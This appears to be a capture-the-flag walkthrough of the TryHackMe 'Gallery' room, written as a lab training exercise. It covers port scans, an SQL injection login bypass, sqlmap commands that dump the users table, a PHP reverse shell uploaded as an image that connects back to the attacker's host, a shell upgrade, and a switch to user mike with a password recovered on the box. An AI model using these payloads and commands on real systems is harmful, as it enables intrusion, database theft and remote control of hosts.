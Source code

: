 # Gallery

**Room Link:** [https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>



### TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```







### TCP/80 - HTTP

<figure><img src="../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

SQL injection worked on username field

```
Username: 1' or '1'='1'-- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

We found two databases

**Kali**

```
sudo sqlmap -r request.req --dbs
```

<figure><img src="../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

Get tables

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables
```

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

Get fields for table users

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables -T users --columns
```



<figure><img src="../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Get values of the username and password fields. I couldn't crack the hash.

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables -T users  -C username,password --dump
```

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

I was able to upload a php reverse shell instead of an image

**Kali**

```
nc -lvnp 443
```

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

We found a list of passwords from mike in a file called accounts and another password in history

<figure><img src="../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su mike
Password: b3stpassw0rdbr0xx
```

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>











